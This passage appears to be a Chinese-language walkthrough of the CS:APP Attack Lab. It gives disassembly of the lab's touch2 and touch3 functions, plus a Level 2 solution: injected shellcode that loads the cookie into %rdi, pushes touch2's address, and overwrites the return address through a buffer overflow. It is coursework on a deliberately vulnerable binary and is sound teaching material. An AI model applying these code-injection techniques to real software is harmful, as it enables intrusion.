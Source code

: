 ```assembly
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

**要求：**

利用输入的字符串携带指令实现修改寄存器%edi的值，使之与`cookie`相等，随后将控制转移给`touch2`。

**答案：**

首先编写修改寄存器值并转移控制的汇编代码（`asm2.s`），这是攻击字符串的第一部分：

```assembly
movq  $0x59b997fa,%rdi  #设置参数
pushq $0x4017ec         #转移控制
ret
```

获取其对应机器代码：

```
gcc -c asm2.s -o 2.o
objdump -d 2.o > 2.txt
```

整合机器代码、填充及返回地址覆盖（<u>%rsp，Gets后设置断点检查寄存器获得</u>），得到`attack2.txt`，调用`hex2raw`得到`attack2x.txt`实现攻击。

### Level 3

**汇编代码分析：**

```assembly
00000000004017a8 <getbuf>:
  ...

000000000040184c <hexmatch>:
  ...
#Writeup中说明此函数功能为比较参数（%rdi）【无符号整型转换为16进制字符串】与cookie是否相同。

00000000004018fa <touch3>:
  4018fa:	53                   	push   %rbx
  4018fb:	48 89 fb             	mov    %rdi,%rbx
  4018fe:	c7 05 d4 2b 20 00 03 	movl   $0x3,0x202bd4(%rip)        # 6044dc <vlevel>
  401905:	00 00 00 
  401908:	48 89 fe             	mov    %rdi,%rsi
  40190b:	8b 3d d3 2b 20 00    	mov    0x202bd3(%rip),%edi        # 6044e4 <cookie>
  401911:	e8 36 ff ff ff       	callq  40184c <hexmatch> #比较
  401916:	85 c0                	test   %eax,%eax
  401918:	74 23                	je     40193d <touch3+0x43>
  40191a:	48 89 da             	mov    %rbx,%rdx
  40191d:	be 38 31 40 00       	mov    $0x403138,%esi
  401922:	bf 01 00 00 00       	mov    $0x1,%edi
  401927:	b8 00 00 00 00       	mov    $0x0,%eax
  40192c:	e8 bf f4 ff ff       	callq  400df0 <__printf_chk@plt>
  401931:	bf 03 00 00 00       	mov    $0x3,%edi
  401936:	e8 52 03 00 00       	callq  401c8d <validate>
  40193b:	eb 21                	jmp    40195e <touch3+0x64>
  40193d:	48 89 da             	mov    %rbx,%rdx
  401940:	be 60 31 40 00       	mov    $0x403160,%esi
  401945:	bf 01 00 00 00       	mov    $0x1,%edi
  40194a:	b8 00 00 00 00       	mov    $0x0,%eax
  40194f:	e8 9c f4 ff ff       	callq  400df0 <__printf_chk@plt>
  401954:	bf 03 00 00 00       	mov    $0x3,%edi
  401959:	e8 f1 03 00 00       	callq  401d4f <fail>
  40195e:	bf 00 00 00 00       	mov    $0x0,%edi
  401963:	e8 d8 f4 ff ff       	callq  400e40 <exit@plt>
```